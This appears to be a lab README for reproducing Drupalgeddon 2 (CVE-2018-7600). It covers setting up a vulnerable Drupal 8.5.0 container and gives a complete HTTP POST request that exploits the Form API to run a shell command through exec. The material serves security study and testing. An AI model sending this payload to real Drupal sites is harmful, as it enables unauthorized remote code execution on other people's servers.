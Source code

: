 # Drupal Drupalgeddon 2 Remote Code Execution Vulnerability（CVE-2018-7600）

Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1 allows remote attackers to execute arbitrary code because of an issue affecting multiple subsystems with default or common module configurations including the Form API.

# References:

- https://research.checkpoint.com/uncovering-drupalgeddon-2/


## Vulnerable environment

Run the following command to start a vulnerable Drupal 8.5.0 environment:

```
docker-compose up -d
```

After the environment is started, visit `http://your-ip:8080/` and you will see the drupal installation page. Complete the drupal installation using the "standard" profile. Because there is no mysql environment, you should select sqlite database when installing. Once the installation is complete you are ready to start exploiting it.

## Exploit

Referring to [a2u/CVE-2018-7600](https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py), we can send the following request to drupal:

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

Upon successful execution of the code, the id command is executed:

![](1.png)
